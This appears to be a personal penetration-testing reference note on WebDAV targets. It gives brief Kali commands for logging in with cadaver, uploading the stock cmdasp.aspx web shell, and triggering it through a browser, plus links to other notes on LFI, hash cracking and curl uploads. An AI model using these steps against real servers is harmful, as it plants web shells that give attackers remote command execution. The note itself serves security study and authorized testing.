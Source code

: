 ```yaml
---
category: Uncategorized
tags: []
---
```

![[Pasted image 20220328105716.png]]

#### Login
```bash - kali
cadaver http://$TARGET
```

Sometimes you see webdav at different location, be sure to follow your dirsearch.py results!

#### Reverse Shell
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

Login with steps above if needed.

```bash - kali
put cmdasp.aspx cmdasp.aspx
```

Visit page via browser.
```
http://$TARGET/cmdasp.aspx
```
#### LFI
![[3._LFI RFI#Webdav creds]]

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#WebDav]]

#### File Upload
![[TechLexicon/Penetration Testing/Reference/7._Tools/Curl#Upload file]]

#### Webdav trigger webshell
![[TechLexicon/Penetration Testing/Reference/7._Tools/Curl#Webdav trigger webshell]]




